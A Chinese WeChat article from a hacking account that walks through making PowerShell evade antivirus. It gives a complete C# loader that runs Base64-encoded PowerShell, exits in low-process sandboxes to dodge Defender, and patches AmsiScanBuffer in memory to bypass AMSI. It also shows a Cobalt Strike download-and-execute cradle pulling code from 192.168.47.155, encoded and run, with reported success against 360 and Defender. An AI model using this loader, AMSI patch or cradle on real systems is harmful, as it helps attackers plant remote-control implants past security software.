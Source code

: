 #  「攻防对抗」如何实现Powershell免杀？且看本文为你婉婉道来

原创 小伍同学 [ Hacker之家 ](javascript:void\(0\);)

**Hacker之家** ![]()

微信号 A-Hacker

功能介绍 Hacker之家，专业码代码，致力于网络信息攻防编程技术领域

____

___发表于_

收录于合集

#360 5 个

#攻防对抗 5 个

## 前言

### 分析powershell

通过查看powershell程序的模块调用，发现有一个名为`System.Management.Automation.ni.dll`，这个Dll包含PowerShell
运行时和所有在 PowerShell 环境中运行的命令

`System.Management.Automation.ni.dll` 是预编译版本的
`System.Management.Automation.dll`，这样 PowerShell 可以更快地加载和运行

若想执行 PowerShell 命令或脚本的 C# 程序，都需要引用 `System.Management.Automation.dll`

![]()

## 代码实现

创建一个C#的`.Net
Framework`项目，添加引用，点击浏览找到`System.Management.Automation.dll`其所在路径并勾选上

![]()

下述代码是一个完整的PowerShell脚本执行环境，它支持接收Base64编码的PowerShell脚本作为参数，解码并执行脚本，同时如果参数中包含”-s”，那么还会执行bypass
AMSI的操作。其中AMSI是Windows中用于防止恶意脚本执行的安全机制

    
    
    using System;  
    using System.Management.Automation;  
    using System.Management.Automation.Runspaces;  
    using System.Collections.ObjectModel;  
    using System.Runtime.InteropServices;  
    using System.Text;  
    using System.Collections.Generic;  
      
    namespace MyPowershell  
    {  
        class Program  
        {  
            // 使用DllImport属性导入kernel32.dll中的GetProcAddress函数，用于获取指定模块的函数或变量的地址。  
            [DllImport("kernel32")]  
            public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);  
      
            // 导入kernel32.dll中的LoadLibrary函数，用于加载指定的动态链接库，并返回库的句柄。  
            [DllImport("kernel32")]  
            public static extern IntPtr LoadLibrary(string name);  
      
            // 导入kernel32.dll中的VirtualProtect函数，用于改变指定内存区域的保护属性。  
            [DllImport("kernel32")]  
            public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);  
      
            // 用于将byte数组中的数据复制到指定的内存地址中。  
            private static void copy(Byte[] Patch, IntPtr Address)  
            {  
                Marshal.Copy(Patch, 0, Address, 6);  
            }  
      
            // 此方法通过修改AmsiScanBuffer函数来bypass AMSI检测。  
            public static void chaching()  
            {  
                // 加载amsi.dll  
                IntPtr Library = LoadLibrary("a" + "m" + "s" + "i" + ".dll");  
                // 获取AmsiScanBuffer函数的地址  
                IntPtr Address = GetProcAddress(Library, "Amsi" + "Scan" + "Buffer");  
                uint p;  
                // 修改AmsiScanBuffer函数的内存保护属性  
                VirtualProtect(Address, (UIntPtr)5, 0x40, out p);  
                // 准备新的函数字节码  
                Byte[] Patch = { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };  
                // 将新的函数字节码复制到AmsiScanBuffer函数的地址  
                copy(Patch, Address);  
                Console.WriteLine("Patch Applied");  
            }  
      
            static void Main(String[] args)  
            {  
                // 如果命令行参数为空，结束程序运行  
                if (args.Length == 0)  
                    Environment.Exit(1);  
      
                // 判断系统的进程数是否小于40，如果小于40则退出程序(用来反defender的沙箱)  
                if (Process.GetProcesses().Length < 40)  
                {  
                    Console.WriteLine("The number of processes in the system is less than 40. Exiting the program.");  
                    Environment.Exit(0);  
                }  
      
                List<string> argsList = new List<string>(args);  
      
                // 如果命令行参数中包含“-s”，则执行bypass amsi的操作  
                if (argsList.Contains("-s"))  
                {  
                    chaching();  
                    argsList.Remove("-s"); //从参数数组中移除"-s"  
                }  
      
                // 对传入的Base64编码的字符串进行解码  
                string temp = Base64Decode(argsList[0]);  
                // 运行解码后的PowerShell脚本，并将执行结果输出到控制台  
                string s = RunScript(temp);  
                Console.WriteLine(s);  
                Console.ReadKey();  
            }  
      
            // Base64解码函数  
            public static string Base64Decode(string s)  
            {  
                return System.Text.Encoding.Default.GetString(System.Convert.FromBase64String(s));  
            }  
      
            // 运行PowerShell脚本并返回执行结果的函数  
            private static string RunScript(string script)  
            {  
                // 创建并打开一个运行空间，用于运行PowerShell命令  
                Runspace MyRunspace = RunspaceFactory.CreateRunspace();  
                MyRunspace.Open();  
      
                // 在运行空间中创建一个管道，用于存放待执行的PowerShell命令  
                Pipeline MyPipeline = MyRunspace.CreatePipeline();  
                // 在管道中添加PowerShell命令  
                MyPipeline.Commands.AddScript(script);  
                // 在管道中添加输出命令，使得PowerShell命令的执行结果能被程序获取  
                MyPipeline.Commands.Add("Out-String");  
      
                // 调用管道中的PowerShell命令，并获取执行结果  
                Collection<PSObject> outputs = MyPipeline.Invoke();  
                // 关闭运行空间  
                MyRunspace.Close();  
      
                // 将执行结果转换为字符串  
                StringBuilder sb = new StringBuilder();  
                foreach (PSObject pobject in outputs)  
                {  
                    sb.AppendLine(pobject.ToString());  
                }  
      
                return sb.ToString();  
            }  
        }  
    }

## 运行测试

### 360核晶环境

360静态查杀没有报毒

![]()

使用CobaltStrike生成Powershell命令, 我们只需截取以下部分作为payload即可

    
    
    IEX ((new-object net.webclient).downloadstring('http://192.168.47.155:80/a'))

将payload进行base64加密

    
    
    SUVYICgobmV3LW9iamVjdCBuZXQud2ViY2xpZW50KS5kb3dubG9hZHN0cmluZygnaHR0cDovLzE5Mi4xNjguNDcuMTU1OjgwL2EnKSk=

打开cmd或powershell执行如下命令，cs上线成功，没有被核晶拦截

    
    
    Mypowershell.exe SUVYICgobmV3LW9iamVjdCBuZXQud2ViY2xpZW50KS5kb3dubG9hZHN0cmluZygnaHR0cDovLzE5Mi4xNjguNDcuMTU1OjgwL2EnKSk=

![]()

### Defender环境

在WindowsDefender环境下按照之前的操作执行会被amsi拦截（360是没有集成amsi的）

![]()

因此需加上-s参数来绕过amsi，这样CS就能正常上线了

  

![]()

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

轻触阅读原文

继续滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

